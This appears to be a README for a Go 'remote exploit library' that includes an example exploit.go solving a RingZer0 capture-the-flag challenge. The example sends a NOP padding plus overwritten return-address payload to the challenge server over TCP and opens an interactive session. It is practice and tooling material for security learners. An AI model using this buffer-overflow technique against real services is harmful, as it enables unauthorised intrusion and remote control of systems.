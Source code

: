 ##### http://www.securitysignal.org/2015/12/securitysocket-remote-exploit-library.html #####

Install Library: go get github.com/hdbreaker/Go-SecuritySocket/ssocket

Import Library: import "github.com/hdbreaker/Go-SecuritySocket/ssocket"

Example: # Solution with Go of Challenge https://ringzer0team.com/challenges/181

#exploit.go
```
package main

import (

	"bytes"
	"encoding/binary"
	"strings"
	
	"github.com/hdbreaker/Go-SecuritySocket/ssocket"
)

func main() {

	var raoPromptAdress uint32 = 0x40149B //dirección de memoria de rao_promt
	buffRao := new(bytes.Buffer)
	binary.Write(buffRao, binary.LittleEndian, &raoPromptAdress)
	payload := strings.Repeat("\x90", 56) + string(buffRao.Bytes())
	ss := ssocket.SecuritySocket{Protocol: "tcp", Host: "ringzer0team.com:1001"}
	conn := ss.Connect()
	ss.Send(conn, payload)
	ss.Interactive(conn)

}
```
